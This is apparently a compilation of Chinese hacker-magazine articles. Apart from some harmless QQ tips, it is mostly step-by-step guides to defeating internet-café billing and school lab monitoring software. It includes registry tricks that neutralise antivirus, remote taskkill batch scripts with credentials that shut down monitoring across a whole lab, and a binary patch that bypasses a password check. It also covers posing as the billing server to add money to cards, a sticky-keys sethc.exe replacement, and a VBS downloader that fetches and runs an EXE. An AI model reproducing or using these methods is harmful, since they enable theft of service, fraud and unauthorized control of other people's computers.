如果是在自己的电脑上保存QQ自定义表情当然很简单，但如果在网吧里就不那么容易了，因为网吧的电脑都安装了还原系统，一关机保存的东西就没有了。而如果你是QQ会员的话，就可以使用表情漫游功能来随时保存自定义表情了。表情漫游功能为我们提供了QQ自定义表情服务器的自动上传和下载功能，只需要将每组表情的“本组表情漫游”勾选上，就可以在家中、在公司、在网吧完全随心所欲地使用收藏的表情了。对于已经设置自动漫游的分组，当我们更换电脑登录QQ后，系统将会自动下载你已经上传过的表情，无论何时何地我们都可以轻松使用自己喜欢的表情了，如图1。

图1

#### 二、聊天记录漫游

对于经常泡网吧的朋友来讲，保存聊天记录也是一件麻烦的事。聊天记录漫游就是把你的聊天记录保存到腾讯的服务器上，目前聊天记录漫游又分两个小功能：

- 漫游全体好友最近一个月聊天记录
- 永久漫游指定好友聊天记录

默认为你保存全体好友最近一个月的聊天记录；永久漫游指定好友聊天记录。设置漫游后，系统将默认永久为你保存与该好友的聊天记录，VIP等级越高，可设置的好友数也越多。可在聊天窗口中点击“聊天记录”按钮，在右侧记录窗中选择“漫游的聊天记录”，再选择“漫游全体好友最近一个月记录”等选项进行设置，如图2。

图2

如果要永久漫游指定好友的聊天记录，就可以打开和该好友的聊天窗口，同样点击“聊天记录”按钮，在右边出现的聊天记录窗口中点击“漫游的聊天记录”，然后勾选“永久漫游此好友记录”即可（当然了，我们可以设置“永久漫游此好友记录”的人数是有限的，QQ的等级越高，可以设置的人数就越多），如图3。

图3

本文并不是建议大家都去开QQ会员，只是如果我们已经花钱开通，而且还经常泡网吧的话，那就不妨使用我上面所介绍的那两个功能吧，反正不用白不用。

## 对“零工具反彩虹QQ隐身”的补充

彩虹QQ的工作原理如下：当用户改变状态的时候，会向腾讯服务器发送关于用户变更为何种状态的数据包，然后服务器再转发给用户好友。假如其好友套上一个具有截获并且分析数据包功能的“外壳”，就能轻易知道用户变为何种状态。我们举个通俗的例子来说明：丑男对服务器说“我要伪装帅哥了”，服务器随后通知发现友说“你朋友要伪装成帅哥了”，那么以后我再怎么伪装自己，朋友肯定都会知道我是丑男！目前为止，我们可以利用以下三点来防止彩虹QQ的显隐身功能。

- 1. 变更地理位置的显示状态

原理：这是彩虹QQ的一个BUG，把变更地理位置的显示状态的数据包错认为离线的数据包。我们以名为swan的QQ号为参照QQ，从名为“测试号1”……

图1

的QQ上来查看其状态情况，如图1。现在，我在个人设置那里更改SWAN的地理位置的显示状态，如图2。如果之前是打勾的就改为不打勾，反之亦然，再来看一下其状态，已经显示为“对方不在线”了，如图3。

原理：这样会致使彩虹QQ对数据包识别产生困难（测试同上，可选择性地更改系统时间）。

- 2、不断地变更QQ的在线状态

在线—离线—隐身这三者间进行连续切换，大概切换四五次或者更多。

- 3、使用新版QQ，比如QQ2009（测试方法同上）

原理：软件方加密了数据包。

## 突破QQ绿钻权限 让空间唱起来

☆ King 聚少

最近明星们都出了不少的新歌，相信大家都想把自己偶像的歌曲放到自己的QQ空间里吧，可是结果却是这样，如图1，一首歌居然问我们要2.5元。相信小菜们不会为了添加一首歌就要花费2.5元吧，那有没有其它的方法呢？方法当然有的，只要我们开通了绿钻，那么所有的歌曲就都免费了，但是开通绿钻还要10块钱，有不要钱的方法吗？答案也是肯定的，下面我就教大家如何免费让QQ空间唱起来！

第一步：首先找到你要添加的歌曲的URL，也就是歌的地址，我们到百度看看，如图3。好哟哦，眼都看花了，随便选择一首歌，对着歌名点击鼠标左键，地址是不是出来了：http://hao8hao.com/upload/music/J/U/N/JUNE/1222095278090.mp3  
把地址复制下来然后来到自己的空间，依次点击导航“音乐盒—添加音乐—网络添加”，在“添加URL”处填上刚才找到的MP3地址，下面的就随便填了，如图4。

最后点击“提交”就可以了，现在我们已经把音乐添加上了，接着点击“设为背景音乐”，这样就可以把这首歌设置为我们QQ空间的背景音乐了，如图5。

不过没有播放器的话空间是不会唱歌的，因此我们还要添加播放器，播放器的代码如下：

```text
水晶蓝播放器
javascript:window.top.space_addItem(6,703,0,0,200,200,0);
时尚旋律播放器
javascript:window.top.space_addItem(6,1228,0,0,200,200,0);
蓝色简洁播放器
javascript:window.top.space_addItem(6,676,0,0,200,200,0);
古典水晶播放器
javascript:window.top.space_addItem(6,702,0,0,200,200,0);
```

找一个自己喜欢的吧，不会添加播放器的请参考以前X档案上的相关文章，这里我就不多说了。到这里就算是完成了，使用这种方法，可以添加无数歌曲哟！

### 零工具巧创网吧免费上网神话

XiaoYY

这天来到网吧下载资料，想到四川的灾区同胞还处在水深火热之中，不禁有感而发。当看到网吧中的计费软件时就暗暗地下定决心一定要破解掉它，帮助那些为了学习技术而在网吧奋斗的兄弟们省下钱来献爱心（小编注：原来在网吧中免费上网就是为了向灾区人民献爱心呀，值得表扬，只是这种做法不能提倡）。计费软件总体上可以分为两种——硬件插卡型和软件计费型，我们这次只讨论软件计费型，不过大家也可以使用此方法试一试硬件型的，或许会有意想不到的结果哦。

软件型计费软件的原理是客户端和计费端双验证模式。也就是说，当你把电脑打开，客户端就会提示网管此机已打开；当你输入卡号和密码上网时，客户端就会提示网管有人在付钱上网，其余的活动一样。然而计费端与之不同，当你输入卡号和密码后，使用电脑时它才会计费，不输入是不会计费的。我们大部分的操作，例如破坏计费端等，都会被客户端清清楚楚地看到。就像图上看到的一样，我们只要堵上自己机子的嘴巴，就可以达到免费的目的了。不过当主机也就是服务端连接你的时候，会因为你机子的失控而引起人为干预，也就是说这件事很危险，但事实上网吧中的大多数管理员都不会管这种情况，这与其自身水平和文化程度成正比。

说了这么多，也该讲到正点了。大家可以发现，网吧里的计费软件其实都是应用程序，我们只要让它启动不起来，也就是让上图所说的让它失去执行命令的能力，我们就可以免费上网了。那么怎样能让这个应用程序失效呢？随着问题的增多，难度也随之加大，这并不是本文的初衷，所以我们采取牺牲所有程序的方法来让它停下来。为了增加难度，我使用卡巴斯基7.0并打开主动防御以及360保险箱来为大家进行突破演示。

首先进入注册表，打不开？将 regedit.exe 写入文本文件中，将文件保存为 reg.bat，运行 reg.bat 来打开注册表，找到 [HKEY_CLASSES_ROOT/.exe]，将默认的 exefile 改为 txtfile，如图2，修改前请将此项备份。

注销系统，这时所有 EXE 后缀的程序图标都将变成文本文档图标，我们会发现自己电脑上有好多文本框框。此时360保险箱和卡巴斯基都不会有什么反应了，如图3、图4。我们可以任意地关掉它们，至此破解完成。

```text
shutdown -r

注：可保存为“注销.bat”运行；若需伪装，可将 EXE 后缀改为 .bat/.pif/.com 并更换图标。
```

我再给大家进行一些细节上的补充。系统无法注销的话，我们可以将“shutdown -r”写入文本文件中，将文件保存为“注销.bat”，然后运行。注销后需要用户登录，之前我们可以添加一个用户并添加进管理员组中。想要运行的EXE文件运行不了，我们可以将其后缀名改为 *.bat、*.pif、*.com 等格式，最后使用 reshacker 更改360保险箱的图标从而达到伪装的目的，就悄悄隐藏了。

### 徒手搞定整个机房

#### 一、前言

前段时间的地震前后人心惶惶，学校也停课两周，复课后大家学习状态不佳。作为计算机学校学生，平时喜欢研究机房中的电脑防护程序，发现期末成绩不保，于是就想到了破解监控程序。电脑使用的是“凌波多媒体监控中心”和“金盘电子阅览室管理系统”，其破解方法曾在往期文章中提过。自从那篇文章刊登后，学校的每台电脑上就多了一个“pc security 系统保护”。按 Ctrl+Alt+Del 组合键没有任何反应，大多数系统命令不能执行，此处理程序也不能运行。

我曾试过使用C语言中的 System() 函数来调用系统命令和代码调用，Delphi中的 winexec() 函数调用系统命令，或使用 Registry 相关操作来改注册表，可都是不行。经过后来的一段时间试验，我终于找到了破解“pc security 系统保护”的方法。

#### 二、小试牛刀

“pc security 系统保护”程序在系统目录 System32 文件夹下有两个关键文件 winser.exe 和 winsersrc.exe（图3）；这两个文件无法删除，但却可以改名。“pc security 系统保护”有两个关键进程 sdaemon.exe 和 winsersc.exe，相互监视。“pc security 系统保护”还有一个名为 winser 的系统服务，描述为空，启动类型为自动（图4）。

首先到系统 System32 目录下找到 winser.exe 和 winsersrc.exe 这两个文件，分别改名为任意名字，然后在“我的电脑”上点击鼠标右键，选择“管理”（图5），选择“服务和应用程序”下的“服务”（图6），从右侧的服务中找到 Winser 服务项，双击后更改启动类型为“已禁用”（图7）。

确定后点击左上角的“停止”按钮（图8），此时会出现无法停止的提示（图9），不用管它，单击确定后再次点击“停止”按钮，此时服务停止进度框在走到一半时就会停下来（图10），依然不用管它。在“开始”—“运行”栏中输入“tskill client.exe”命令来结束掉“金盘电子阅览室管理系统”（金盘电子阅览室管理系统不允许注销计算机），然后注销计算机。

注销后重新登录计算机，如果账户没有密码的话，需要先破解账户密码或者新建账户，其具体操作请翻阅以前的杂志。正常登录后便可以正常打开任务管理器和 CMD 了（图11），但却有如图12所示的提示框，这个提示框是“pc security 系统保护”出错的提示。通过任务管理器可以看到此时“pc security 系统保护”依然在运行（图13），但却没有起任何作用。只要没有系统操作限制，破解监控系统就变得轻而易举了。

在“开始”—“运行”栏输入 msconfig 来运行系统配置程序，切换到“启动”选项；把除“ctmon”（输入法程序）和“RavTask”（瑞星杀毒软件）外的所有选项取消掉（图14）。单击确定后选择“稍后重新启动”。在“运行”栏输入 tskill client.exe 后注销计算机，重新登录，此时计算机就没有任何限制了（图15）。

#### 三、试探曹营

计算机没有了监控，可以放心地玩游戏了。可毕竟CS不是一个人玩的游戏，但我要是为每个同学破解监控的话那得花多大的力气呀？于是我就想能不能一下子把所有人的监控都给关了？经过一段时间的试验，我发现了下面这个方法。

学校计算机利用还原卡的强大还原功能安装了双系统 WinXP 和 Win2000，这两个系统相互不可见，也就是说在 WinXP 下看不到任何一个 Win2000 的文件。然而学校计算机的游戏都安装在 Win2000 下，这就使得所有想玩游戏的同学都得进入 Win2000 系统，这就给我的这个方法提供了可能性。

依据我多年使用电脑的经验，Windows 操作系统自身提供的大多数远程管理类命令在 Win2000 下都能正常执行，前提是账户名和密码要正确。而“凌波多媒体监控中心”和“金盘电子阅览室管理系统”非常脆弱，其进程可以使用任务管理器结束掉，所以我们可以使用 Windows 操作系统自带的远程任务管理命令结束掉远程计算机上的监控系统。

进入CMD输入 `ipconfig` 查看本机的IP地址（图16），然后任意选择一个同网段的IP进行测试。命令格式为 `tasklist /s 210.41.XX.XX /u user /p password`，此命令的作用是列举该主机的进程列表，测试结果如图17所示，说明可以进行远程任务管理。

接下来我们只需要把 Client.exe 和 Ncstu.exe 及其子进程结束掉就行了，命令格式为 `taskkill /s 210.41.XX.XX /u user /p password /im client.exe /f /t`，此命令的作用是强行结束该主机的 client.exe 进程及其子进程，把 client.exe 改为 Ncstu.exe 再执行一次就可以了（图18）。为了验证刚才的操作，我们再一次列举该主机的进程列表（图19），没有发现 Client.exe 和 Ncstu.exe，说明我们的操作成功了。

#### 四、大开杀戒

测试成功了，说明这个方法完全可以使用命令来完成。既然可以用命令完成，那么也就可以用批处理程序来执行批量操作。由于机房的计算机数量巨大，如果使用批处理来依次执行的话需要花大量时间，所以我们还要一个可多线程操作的批处理程序，让整个机房所有的监控瞬时关闭。经过几天的测试，我写下了如下程序代码：

```bat
@mode con cols=50 lines=18
::设置窗口大小
@echo off
::关闭命令提示
color f1
::设置窗口和字体颜色
echo. 正在准备文件...
title 唯我独尊主程序
if exist ko.bat del ko.bat /f /s /q>nul
@echo @mode con cols=50 lines=18>>ko.bat
echo @title 正在连接%%1号...>>ko.bat
echo @echo off>>ko.bat
echo color f1>>ko.bat
echo echo 正在结束%%1金盘电子阅览室管理系统...>>ko.bat
echo if exist %%1.txt del %%1.txt /f /s /q >nul>>ko.bat
echo taskkill /s %%1 /u news /p newsadmin /im client.exe /f /t>>nul 2>nul>>ko.bat
```

#### 五、总结

使用上面的“唯我独尊”程序……（总结段落，描述通过替换进程名关闭机房内CS进程的效果）

把以上代码用记事本保存为“唯我独尊.bat”后双击运行即可（图20、图21）……整个机房的监控也都被关闭了。

## 使用OD破解PUBWIN4 实现免费上网

零度幻影

平时我们经常使用工具破解网吧计费软件来实现免费上网，不过用得多了就会感觉没意思……

首先找到 PUBWIN4 的客户端主程序 pubwin.exe……使用 PEID 查壳，发现它是使用 Microsoft Visual C++ 6.0 编写的，没有加壳……

接下来使用 OD 载入 PUBWIN4 客户端主程序……使用“超级字符串参考”查找 ASCII，定位到“口令错误，请重新输入”相关代码……

双击此处代码，我们来定位关键的跳转……把 JNZ 修改为 JE，同时取消“使用 NOP 填充”并汇编保存，修改后即可绕过口令限制。

## 网吧黑客

图5

选择“复制到可执行文件”→“全部修改”，OD会提示是否将所做的修改保存到程序中，全部选择后OD会进入一个新的窗口，点击鼠标右键选择保存文件，将修改后的文件替换原文件或者直接放在桌面双击运行，运行后就会弹出PUBWIN4的失败口令错误提示。

图6

登录窗口，选择管理员登录，直接使用空密码登录就可以了。至此整个破解过程就完成了，有兴趣的X友可以试一下哟！（本文所涉及到的PEID、OD已收录到光盘中）

### 看我怎么干掉任子行网吧管理系统

凤凰天成

好久没有去网吧上网了，以前网吧里使用的管理系统是万象2006，现在居然全部换成了任子行网吧管理系统。桌面右下角那个绿色的方形文件夹图标就是它的程序图标，如图1。我忍不住手痒对它进行了测试，所以也就有了今天的免费上网之旅。

图1  
图2

首先请出利器Wsyscheck，通过检查进程发现任子行的父进程是 rwyNCMc.exe，但我们不能直接结束它，否则的话会马上关机。其中还有保护进程 dismanager.exe、RService.exe、TerminalManager、Terminal.exe。这里说明任子行把 dll 文件注入到了正常的系统文件中，被注入的正常系统进程有 ctfmon.exe、conime.exe、explorer.exe、winlogon.exe。单击 rwyNCMc.exe，我们可以看到其调用的 dll 模块路径位于：

- C:\WINDOWS\system32\rwyNCMc.exe
- C:\WINDOWS\system32\carddll.dll
- C:\WINDOWS\system32\BillDll.dll
- C:\WINDOWS\system32\cmytec.dll
- C:\WINDOWS\system32\wvm.dll

紧接着把 wb321Client.exe、BarClientView.exe、ProcessSafe.exe、rwyNCMc.exe、dismanager.exe、RService.exe、TerminalManager.exe、Terminal.exe 全部勾选，然后点鼠标右键，选择“结束选择进程”，这样就大功告成了，快去开始你的免费之旅吧！

图3

我们断开网络连接，大家速度一定要快，不然任子行会自动检测并锁定。下一步我们把任子行注入到正常程序中的模块全部卸载掉，这里重点说下 winlogon.exe 的卸载，它的模块路径位于 C:\WINDOWS\system32\skcla.dll，如果不把注入 Winlogon 中的 DLL 卸载掉的话，过一会儿就会自动关机。但是卸载掉注入到 Winlogon 里的 dll 后就会弹出一个“Winlogon通用控制对话框，winlogon.exe—应用程序错误”的对话框，如图3，大家千万不要点它，不然会蓝屏。

（本文所涉及到的Wsyscheck已收录到光盘中）

### 再破 HR2004 机房登录系统（二）

宇宙婴儿

记得在“黑客X档案”2007年第1期的杂志中看到过一篇名为“简单破解HR2004”的文章，我们学校的机房使用的也是HR2004机房登录系统……这两天我突然又对HR2004产生了兴趣，奋战了几天，终于把它给破解了。

当然了，我们也可以记录下密码，这样下次就不用再运行破解程序了。选择“Boot Thawed”，点击“OK”（如图5），设置成功后，电脑就不会被还原了，成功后的界面如图6所示。

### 一、读取冰点还原精灵的密码

在尝试了那位朋友的方法后，我发现我们学校的电脑在按下 Ctrl+Alt+Delete 后并不会弹出有“锁定计算机”选项的对话框……点击“确定”后就自动进入设置界面了。

### 二、偷梁换柱，对付 HR 客户端

这一步就是借鉴2007年第1期“简单破解HR2004”一文中那位作者朋友的思路了：在 `C:\WINDOWS\system32` 目录下新建一个文件夹，然后找到该目录下的 `hrclient.exe`，将其拖入到新建的文件夹中，将新建的文件夹重命名为 `hrclient.exe`（如图7、图8）。

开机后 HR 的客户端就不会启动了，而被我们作为替换的那个文件夹则打开了（如图9）。不用理会它，直接关闭就 OK 了。注意这时候一定要刷卡下机，否则还会计费。

### 三、防止无网管软件开启时的自动关机

（同样适用于其它网管软件）

进行完前面的两步，本以为可以长长地松一口气来享受免费大餐了，可玩了十分钟左右，电脑突然自动关机了。虽然重启之后还可以继续使用，但每隔十分钟就要重启一次，太不爽了。我在网上一阵猛搜，终于又找到了一个叫做 SnipeSword（狙剑）的工具，它的主要作用就是用来防止关机和重启。在运行后点击界面右上角的“快捷菜单”，在弹出的菜单中选择“禁止关机重启”（如图10），然后点击“关闭”就可以隐藏到托盘中。

等电脑到了自动关机的时候，桌面会弹出一个窗口，在下拉菜单中选择“结束进程”，然后点击“确定”，这样一切就都搞定了，系统再也不会自动关机了（如图11）。我们现在就可以放心地关掉狙剑，痛痛快快地享用免费的网络大餐了！不过此时在开始菜单中的关机项没有了，我们要想关机的话也只能断掉电源。此法同样适用于其它一些网管软件，请大家自行研究吧！

#### 四、善后工作

小菜玩黑，自然应该把安全放在第一位，玩过之后一定要记得善后。按下 Ctrl+Alt+Shift+F6 把冰点呼出，输入已经得到的密码，把还原卡重新设置为“Boot Frozen”，再到 `C:\WINDOWS\system32` 目录下把名为 `hrclient.exe` 的文件先删除掉（不用担心，系统会重新建立一个 `hrclient.exe` 文件）。此时 HR 登录界面很快就会跳出来。本文仅供学习研究使用，请大家不要玩得太过火了，否则被发现了可不要怪我没提醒大家哦。

> （文中涉及到的冰点密码获取器、SnipeSword，已经收录在光盘中）

### 破解 PUBWIN4，网费任意加

不知为何，我们这里的网吧特别 BT，今年暑假全部统一把万象、美萍等换成了 PUBWIN4。PUBWIN 目前最新的版本是 PUBWIN2008，居然还使用这么老的版本，难道网管也有怀旧心理？自从换了 PUBWIN4，每次上网都要刷卡，还时不时有警察来检查，心里好怕怕的，以前常用的一些免费上网的方法也用不上了。唉，郁闷呀！免费上网是不可能的了，只好想办法来加钱了。

我们需要用到的工具是 pubwin4 破解精灵 V2005 和 pubwin4 破解补丁。要给卡上加钱，一般都是到主机那儿找网管充值；我们先把自己的电脑模拟成主机。

- 第一步：先得到主机的 IP 地址。在 cmd 命令提示符下使用 `ipconfig` 得到的 Default Gateway 只是网关 IP，一般用来进入管理路由器；要检查主机 IP 地址需要进入 PUBWIN4 的系统设置中，不过这需要有管理员密码才行。
- 接下来，我们打开 pubwin4 破解精灵 V2005，点击第一项“跳过管理员码认证——获取网吧管理员密码”（如图1）。再把鼠标移到屏幕右下角，在网管计费图标上点右键，选择“系统设置”，使用空密码就可以进入（如图2）。切换到“系统参数”项，可以看到管理员密码以星号显示。回到破解精灵 V2005 中，找到“星号密码查看器”这一项，把放大镜拖到星号密码位置，密码就会以明文方式显示出来（如图3）。
- 往下继续看，在密码栏的下边有一串数字“192.168.0.200”，这个就是我们要找的网吧主机 IP 地址了。
- 第二步：打开“PUBWIN4破解补丁”所在的文件夹，找到其中的安装文件“Setup.exe”，选择安装“收费端”，完成后依次进入“开始”→“程序”→“Hintsoft”→“PUBWIN4收费点”，打开收费界面。
- 点击左上角的“数据”→“设置服务器IP地址”（如图4），在弹出的对话框中输入刚才得到的主机IP地址“192.168.0.200”，点击确认后要求验证口令，输入刚才得到的密码就可以进入。不过也曾遇到过提示密码错误的情况，大概是破解补丁已经把密码干掉了，那么我们直接使用空口令就行。
- 按着系统会提示我们“IP地址设置成功”（如图5）。现在主机已经模拟成功了，我们可以去机房里的机器上加钱了。临时卡的话就点“功能”→“加预付款”，输入你当前使用的卡号，确认输入金额，我就充一元钱吧，在“更新定时”中选择“按预付款”，最后点击“确定”，充值成功（如图6）。我们检查一下，果然已经充上了。
- 如果你是会员的话，那就依次点“会员”→“会员增值服务”→“储值卡会员加金额”，然后输入会员卡号和要充值的金额（如图7）。成功充值后，就可以去刷卡上机了……

### 混混没有免费的“午餐”

> 矛后盾

为了赶潮流，我也买了一部 MP5，可是一直闲着，有点大材小用。某日，听同学说有个网吧里有许多电影，所以就跑去网吧下载电影了。很久没有来网吧上网了……右键菜单怎么也不出来。我又试了试 `Ctrl+C` 和 `Ctrl+V`，仍然不行……

我打开了根目录看看能不能找到别的破解方法……无意中打开了暴风影音菜单上的“文件”，出现了“另存为”的选项（如图2）。顿时我灵光一闪，使用“另存为”进行保存不就行了吗？

正常地出现了保存对话框，选择好存放目录和名字后点击“保存”就行了（如图3、图4）。此外，我还发现不但暴风影音可以这样复制，RealPlayer、Windows Media Player 等播放器都可以这样复制……

到此，我们的目的就达到了，本文算不上什么破解，只能算是一个小技巧吧。也应验了一句话：“完美不是世上有的，漏洞是世上无处不在的”！

## 徒手也玩 ikeeper 免费上网

> 无声呐喊

看了好多期杂志上关于破解美萍、万象、pubwin 的文章，可这些始终没让这以后的网吧使用的却不是这些网管软件，而是不怎么出名的 ikeeper 网络管理软件……对上网小菜来说，一个月上网的花费在爸妈所给的生活费中占很大的比例……我决定破解 ikeeper。记得06年某期黑客X档案上有篇叫作“简简单单破 ikeeper”的文章，文中所介绍的就是在 Windows 启动时按 F8，然后选择“带命令提示符的安全模式启动”就可以跳过 ikeeper 的启动了……

在“开始”→“运行”栏里输入“msconfig”，打开“系统配置实用程序”后转到“启动”项，取消掉不熟悉的启动项目（如图1），然后退出并不重启。

- 第二步：打开记事本写入两行命令 `net user "%username%" 123`、`shutdown -f -1`，保存为 `www.bat`（如图2）。
- 第三步：运行 `www.bat`，进入系统登录界面后输入密码 123，右下角 ikeeper 图标消失（如图3）。

后来发现账号已在别的电脑上登录，修改命令为 `shutdown -t 20 -f -1`，将注销延时为20秒，快速切换并在另一台电脑登录即可。该方法不仅适用于 ikeeper，也可用于部分其他网吧管理系统。

### 让网吧破解所向无敌

> 无敌小龙（作者署名/批注气泡）

#### 一、文件巧改名

网吧破解器是一款小巧实用的网吧破解辅助工具，可突破下载限制和磁盘访问限制。先在可操作电脑下载并解压，将“网吧破解器.EXE”改名为“网吧破解器.HTML”，随后可用记事本打开该网页文件。

选择“文件”→“另存为”，在“另存网页”对话框中将“保存类型”设为“网页，仅 HTML”（如图3、图4），即可继续后续处理。选择其它的类型都会导致下载的文件错误。同时，选择“网页，仅HTML”也是本文所要介绍的破解下载方法的核心和关键。最后点击“保存”按钮，就可以看到“网吧破解器”被成功下载了（如图5）。

刚才介绍了如何在本地电脑保存下载这个网吧破解器，我们只要把刚才的“网吧破解器.HTML”文件上传到你的 WEB 服务器上或是你的网页空间中，就可以通过“HTTP://URL/网吧破解器.HTML”来访问和突破下载了。

#### 二、隐藏的下载者

现在我们就从 QQ 着手，开始对网吧限制进行破解。打开 QQ 的网络硬盘，找到“网络记事本”（如图6），然后选择“上传文件”打开，就可以打开网络记事本程序了。

为了配合记事本的使用，我们还要用到一个网吧下载器。在刚才打开的网络记事本程序中点右键，在弹出的快捷菜单中选择“插入对象”（如图7）。在插入对象对话框中选择“由文件创建”，然后点击“浏览”按钮找到网吧下载器程序，最后点击“确定”来插入对象并保存刚才的网络记事本程序（如图8）。这样就制作好了一个隐藏于 QQ 网络硬盘的下载器了。

使用刚才制作的网络记事本程序来突破网吧的下载限制（如图9）。在禁止下载的网吧里，打开 QQ 网络硬盘，找到网络记事本，双击那个插入了网吧下载器的文件，就会弹出一个打开文件的对话框，直接选择运行即可（如图10）。接下来就可以使用网吧下载器来下载迅雷或 FlashGet 了，这样网吧的下载限制也就轻易地被破解了（如图11）。

以后在网吧上网时，如果我们发现被禁止了下载，就可以……这个网络记事本会把插入的对象上传到腾讯的网络服务器。当用户双击运行这个插入对象时，网络记事本内置的一个下载功能模块就会自动下载这个插入对象，下载完毕后就会弹出窗口，提示我们是否运行。我们就是利用了网络记事本这个内置的下载功能来实现下载网吧下载器的目的，继而突破网吧下载限制的。

#### 三、无所不能的脚本

如果大家觉得还不过瘾，我就再介绍一种可以破解网吧下载限制的方法，就是通过 VBS 代码来实现下载网络文件的目的。下面的代码就是通过 XML 实现了对网络文件 `http://127.0.0.1/down.exe` 的下载，并且将文件保存到 C 盘目录下。照需要修改其中的部分代码段即可。具体代码如下，把代码保存为 `DOWN.VBS`，然后双击运行就行了。

```vbscript
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET", "http://127.0.0.1/down.exe", 0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "c:\down.exe", 2
wscript.sleep 1000
Shell.Run ("c:\down.exe")  '延迟过后执行下载文件
```

## 超级图瓜式破解 PUBWIN2007

本人菜鸟一个，在网吧上网时总是要想方设法地实现免费上网……终于在网上发现了一款名叫 Super Anti-lock Export（超级防锁专家）的软件……

还有什么意思呢？经过长时间的测试，我终于发现了解决输入法问题的方法：在任务栏上点击鼠标右键，弹出快捷菜单，把鼠标移动到“工具栏”上，查看其中“语言栏”是否被选中……然后就是解决 pubwin 图标的问题……

我就以下角的图标显示情况来进行说明，在实际操作过程中，虚拟的桌面将不会有原来的桌面图片……还是无法显示出输入法，这可是个问题……

## 看我用 OE 来破解网吧下载限制

网吧的限制主要集中体现在下载的限制上，只要我们突破了网吧的下载限制就可以下载一系列网吧破解工具……因此本文主要介绍如何对网吧的下载限制进行破解。

可以说目前所有的网吧使用的都是 Windows 操作系统，而微软典型的操作系统在安装时默认安装 Outlook Express 这款邮件发送和接收软件，这就给了我们一个实际可行的破解思路。

首先，在可以下载的电脑上发送一封带有下载软件的邮件到你指定的邮箱中。需要注意的是，这个下载软件需要使用 WinRAR 压缩成 RAR 文件，然后以附件的形式发送到指定的邮箱中……接下来，我们到网吧中上网，打开 IE 浏览器，在工具栏上面找到 OE，点击阅读邮件……

此时会弹出一个 Internet 连接向导，要求我们输入自己邮件的显示名称，填写你刚才接收邮件的那个用户名称即可（如图2）。接下来会要求我们输入邮件地址，在这里填写的地址就是你刚才接收邮件附件的那个邮箱（如图3）。

最后会要求输入电子邮件服务器，一个是发送邮件的服务器。如果你使用的是 163 的邮箱，就可以在发送邮件的服务器中填写 `pop3.163.com`，在接收邮件的服务器中填写 `smtp.163.com`（其它邮箱可以到相关网站去查询）（如图4）。

点击“下一步”按钮，按要求输入你的邮箱账户和密码（如图5）。再点击“下一步”按钮，OE 就会自动被打开了（如图6）。

接下来就是关键步骤了：选择“发送/接收”下的“发送和接收全部邮件”，此时 OE 就会自动检测服务器上面是否有新的邮件，然后并下载下来（如图7）。

在 OE 中找到那个带有下载工具附件的邮件，并在下面找到一个类似曲别针的图标，单击后就会弹出一个快捷菜单，在其中找到那个附件（如图8），点击附件菜单，在弹出的邮件附件对话框中点击“打开”按钮（如图9）。

不一会儿，就弹出了这个下载成功的 DOWNLOAD.RAR 文件。安装这个下载好的超级旋风工具后，就可以开始你的下载破解之旅了（可以把你自己的工具放进来，不一定非得是旋风，我这里只是使用旋风来做测试），如图10。

看到这儿，可能会有小菜要问了，为什么 OE 可以破解下载限制呢？其实 OE 在接收文件时就类似于一个下载工具，它把正常的邮件和邮件中的附件全部都下载到本机的硬盘上，所以对于安装了 OE 的系统，也就相当于安装了一个下载工具的系统，这样通过 OE 就可以绕过网吧对下载的限制了。

## 破解金盘之粘滞键后门……

yyh@稻草人

最近一年来，粘滞键后门非常流行，许多小菜都在抓来的肉鸡服务器上安装了它，但是我这次要做的并不是用它来做后门，而是用它来实现免费上网……

这天没事就跑到图书馆的电子阅览室上网，电脑使用的是 Windows XP SP2，并且安装了金盘电子管理系统……经过我的一番尝试，发现电脑下机后会关闭外部进程，于是想到利用粘滞键。

我的思路是自己编写一个程序，替换掉系统原来的粘滞键程序 sethc.exe。该程序按顺序结束 smss.exe、winlogon.exe、cligold.exe、client.exe 等进程，这样在结账下机后连续按 5 次 Shift 就会执行我们的程序，实现免费上网。

```bat
@echo off
ntsd -c q -pn smss.exe
ping 127.0.0.1 -n 1 >nul
ntsd -c q -pn winlogon.exe
ping 127.0.0.1 -n 1 >nul
ntsd -c q -pn cligold.exe
ping 127.0.0.1 -n 1 >nul
ntsd -c q -pn client.exe
copy C:\WINDOWS\system32\...\1.bat ...
```

这就有办法了（经我测试，一般网吧管理系统不会屏蔽粘滞键）。大家也可以使用这个方法来免费上网。

“EXE”，如图2。此时会弹出一个对话框，提示我们“文件编译EXE成功，文件地址请在目标地址文件下查找”，我们点击“确定”，如图3。现在就会在桌面上生成一个名叫“sethcbat.exe”的可执行文件了，如图4。我们把它重命名为 sethc.exe 以待过会儿使用。

打开“我的电脑”，选择“工具”-“文件夹选项”，如图5，然后点击“查看”，并把“隐藏受保护的操作系统文件（推荐）”前面的勾去掉，同时选中“显示所有文件和文件夹”，最后点击“确定”，如图6。

这时使用我们的 sethc.exe 分别替换“C:\WINDOWS\system32\dllcache\”和“C:\WINDOWS\system32\”目录下的 sethc.exe。替换时电脑会弹出一个文件保护对话框，我们依次点击“取消”和“是”，如图7、图8。到此为止我们的准备工作就做好了，结账下机，然后快速按五下 Shift 键，顺利地进入了。

但是我们每次上网都要先从 U 盘中复制出 sethc.exe，然后显示隐藏文件，再覆盖原来的文件，这也太麻烦了。我们需要一种简单的方法，于是我制作了一个可以自动覆盖的文件，把下面的代码保存为 2.bat。

```bat
@echo off
copy /y C:\WINDOWS\system32\dllcache\sethc.exe C:\WINDOWS\system32\sethc.exe
copy /y C:\WINDOWS\system32\dllcache\1.bat C:\WINDOWS\system32\1.bat
```

再把下面的代码保存为 1.bat。

```bat
@echo off
taskkill /f /im explorer.exe
ping 127.0.0.1 -n 1 >nul
explorer.exe
```

现在我们选中 sethc.exe、1.bat 和 2.bat，右键选择“添加到压缩文件”，在“常规”中选择“创建自解压格式压缩文件”，并把修改后文件名为“破解金盘.exe”；再到“高级”页点击“自解压选项”，在“解压路径”中填入“C:\WINDOWS\system32\dllcache\”，并去掉“保存并恢复路径”；在“解压后运行”中填入“2.bat”；在“模式”中选择“全部隐藏”，在“覆盖方式”中选择“覆盖所有文件”。配置完成后即可生成“破解金盘.exe”。

把这个文件复制到我们的 U 盘中，没有 U 盘的朋友可以保存到网络硬盘中。这样每次来上网时，只要复制出这个文件并双击运行，然后就可以结账下机。结账下机后，快速按五次 Shift 键就可以了，快去免费上网吧！

